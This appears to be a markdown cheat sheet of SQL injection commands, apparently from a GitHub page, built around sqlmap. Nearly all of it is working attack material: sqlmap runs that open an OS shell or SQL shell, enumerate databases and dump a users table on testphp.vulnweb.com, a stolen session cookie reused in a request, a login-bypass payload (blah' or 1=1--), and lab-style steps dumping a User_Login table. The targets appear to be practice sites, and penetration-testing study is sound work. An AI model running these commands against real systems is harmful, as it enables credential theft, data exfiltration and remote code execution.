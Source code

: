 #### Get OS-Shell

```bash
sqlmap -u "http://10.10.10.10/file.php?id=1" --os-shell
```

### Others Notes

```bash
URL = http://testphp.vulnweb.com/artists.php?artist=1

Find DBs = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch

Result is DB name acuart

Find Tables = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch

Result is table name users

Find columns = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch

Dump table = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch

Dump the DB = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch



Reference = https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/

Using cookies
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 --risk=3 --dbs --batch

SQL Injection

in login page enter blah' or 1=1-- as username and click login without entering the password

OS Shell = sqlmap -u 'url' --dbms=mysql --os-shell
SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell
```

### **SQL Injection Attack Against MSSQL to Extract Databases using sqlmap**

* Login a website
* Inspect element
* Dev tools-\&gt;Console: document.cookie
* sqlmap -u “[http://www.moviescope.com/viewprofile.aspx?id=1](http://www.moviescope.com/viewprofile.aspx?id=1)" — cookie=”value” –dbs
* \-u: Specify the target URL
* — cookie: Specify the HTTP cookie header value
* — dbs: Enumerate DBMS databases
* Get a list of databases
* Select a database to extract its tables
* sqlmap -u “[http://www.moviescope.com/viewprofile.aspx?id=1](http://www.moviescope.com/viewprofile.aspx?id=1)" — cookie=”value” -D moviescope –tables
* \-D: Specify the DBMS database to enumerate
* — tables: Enumerate DBMS database tables
* Get a list of tables
* Select a column
* sqlmap -u “[http://www.moviescope.com/viewprofile.aspx?id=1](http://www.moviescope.com/viewprofile.aspx?id=1)" — cookie=”value” -D moviescope –T User\_Login — dump
